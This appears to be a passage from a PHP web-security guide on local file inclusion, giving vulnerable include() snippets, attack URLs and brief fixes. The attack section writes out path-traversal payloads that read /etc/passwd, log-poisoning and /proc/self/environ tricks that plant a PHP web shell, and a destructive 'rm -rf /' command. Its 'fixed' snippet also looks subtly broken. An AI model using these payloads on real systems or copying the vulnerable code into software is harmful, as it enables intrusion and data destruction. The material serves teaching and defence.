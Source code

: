 **test_fixed.php**
```php
<?php
$allowedThemes = array('pink.php', 'black.php');
$theme = $_GET['theme'].'php';
if(in_array($theme, $allowedThemes) && file_exists($theme)){
    include $theme;
}
?>
```

## 2) Local File Inclusion

#### Affected PHP Functions
- require
- require_once
- include
- include_once

#### Vulnerable Codes

**test.php**
```php
<?php
$theme = 'themes/'.$_GET['theme'];
include $theme;
?>
```
**test1.php**
```php
<?php
$theme = 'themes/'.$_GET['theme'];
include $theme.'.php';
?>
```
#### Attack
- Reading Local Filesystem File:
	- http://localhost/lfi/index.php?theme=../../../../../../../../../../../../../../etc/passwd
- Uploading PHP Shell:
	- Exploiting Apache Access Log
		- http://localhost/<?php system($_GET['cmd']); ?>
		- http://localhost/lfi/index.php?theme=../../../../../../../../../../../../../../var/log/apache2/access.log&cmd=rm -rf /
	- proc/self/environ method
		- Tamper http User-Agent into <?php system($_GET['cmd']); ?>
		- http://localhost/lfi/index.php?theme=../../../../../../../../../../../../../../proc/self/environ&cmd=rm -rf /

#### How to fix
- Validate with array of allowed files
- Don't allow special chars in variables
- filter the dot "." and slash "/"
- filter "http" , "https" , "ftp" and "smb"
